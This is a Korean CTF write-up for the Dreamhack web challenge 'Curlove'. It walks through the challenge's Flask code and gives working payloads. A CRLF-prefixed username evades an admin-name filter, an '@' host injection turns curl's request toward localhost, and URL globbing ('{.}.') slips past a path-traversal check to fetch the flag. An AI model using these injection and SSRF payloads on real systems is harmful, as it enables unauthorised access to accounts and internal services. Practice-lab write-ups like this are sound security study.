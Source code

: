 ```yaml
---
title: Curlove
author: heogi
date: 2024-12-17
categories:
  - CTF
  - Dreamhack
tags:
  - SSRF
  - WEB
comments: true
---
```

# Curlove

## Description
`curl` 기능을 사용할 수 있는 시스템입니다.  
`/flag` 엔드포인트로 요청하여 플래그를 얻어주세요.

## Attack
`admin`으로 로그인하여 `/flag`로 요청하여 FLAG를 획득해야한다.
`/flag` 페이지는 localhost에서 호출시에만 FLAG를 반환한다.

```python
@app.route("/flag", methods=["GET"])
def flag():
    ip_address = request.remote_addr
    if ip_address == "127.0.0.1":
        return FLAG
    else:
        return "Only local access allowed", 403
```


```python
@app.route("/signup", methods=["GET", "POST"])
def signup():
    if request.method == "GET":
        return render_template("signup.html")

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")

        if username == "" or password == "":
            return render_template("login.html", msg="Enter username and password")

        m = search(r".*", username)

        if username or m:
            if m.group().strip().find("admin") == 0:
                return render_template("signup.html", msg="Not allowed username"), 403
            else:
                username = username.strip()
                sha256_password = sha256((password).encode()).hexdigest()
                register_user(username, sha256_password)
                return redirect("/login")
```


먼저 `admin`으로 로그인하기 위해서는 회원가입을 진행해야한다.

하지만 `m = search(r".*", username)` 구문을 통해 입력한 `username`에서 admin이란 문자열을 검사하여 필터링한다.

해당 구문은 `multiline flag` 옵션이 없어, 첫번째 줄만 검사를 하게 된다.

따라서 `CRLF(%0D%0A)`를 사용하여 개행 후 admin을 입력하면 해당 정규 표현식을 우회하여 admin으로 시작하는 계정을 생성 할 수 있다.

```python
POST /signup HTTP/1.1
Host: localhost
...
Connection: keep-alive

username=%0d%0aadmin&password=123
```

`admin` 으로 로그인 이후 아래와 같은 화면이 보이고 해당 기능은 `/admin` 으로 요청을 보낸다.

![](../assets/img/Pasted%20image%2020241231000613.png)

```python
@app.route("/admin", methods=["GET", "POST"])
def admin():
    if not session:
        return redirect("/login")
    
    if session["isAdmin"] == False:
        return redirect("/guest")

    if request.method == "GET":
        return render_template("admin.html")

    if request.method == "POST":
        url = request.form["url"].strip()
        #url이 http로 시작하고 7~20번째 문자는 dreamhack.io이여야한다.
        if (url[0:4] != "http") or (url[7:20] != "dreamhack.io/"):
            return render_template("admin.html", msg="Not allowed URL")
        #url에 .. 과 %는 필터링
        if (".." in url) or ("%" in url):
            return render_template("admin.html", msg="Not allowed path traversal")
        #url에 , 이 있거나 flag로 끝나면 안됨
        if url.endswith("flag") or ("," in url):
            return render_template("admin.html", msg="Not allowed string or character")
        try:
            print(url, flush=True)
            response = subprocess.run(
                ["curl", f"{url}"], capture_output=True, text=True, timeout=1
            )
            return render_template("admin.html", response=response.stdout)

        except subprocess.TimeoutExpired:
            return render_template("admin.html", msg="Timeout !!!")
```

입력한 URL을 통해 `/flag` 를 호출해야하는데 다양한 필터링이 존재한다.

`http://dreamhack.io/@localhost/flag`는 `/` 이후에 `@` 가 입력이되어서 이미 `/` 을 통해 URL의 구조가 완성되어서 공격이 불가하다.

첫번째 필터링 조건에서 http 이후 3개의 문자를 조작할 수 있는데 이를 이용해 `@` 를 통한 Host Injection을 시도한다.

아래 URL로 curl 요청을 하게 되면 0.0.0.0 으로 요청이 조작되어 전송된다.
```bash
curl -v http@0/dreamhack.io
```

![](../assets/img/Pasted%20image%2020241231002652.png)

localhost에서 보내는 조건은 충족되었고, `/flag` 페이지만 호출 할 수 있으면 된다.

위의 curl 요청에서 `/dreamhack.io` 가 URL Path로 인식이 되는데, `/flag` 호출을 위해서는 `http@0/dreamhack.io/../flag` 와 같은 형태가 되어야한다.

하지만 코드에서 `..` 은 Path Traversal로 필터링이 되고있다.

curl 의 `URL globbing` 기법을 통해 이를 우회할 수 있다.

`URL globbing` 기법은 curl 에서 동일한 URL 범위를 쉽게 지정하여 여러번 요청을 보낼 수 있는 기능이며, 아래와 같이 사용할 수 있다.

```bash
curl -O "http://example.com/{one,two,three,alpha,beta}.html"
```

이를 이용해 해당 필터링을 우회하면 아래와 같은 요청이 완성되고 Flag 획득이 가능하다.

```
http@0/dreamhack.io/{.}./flag#
```

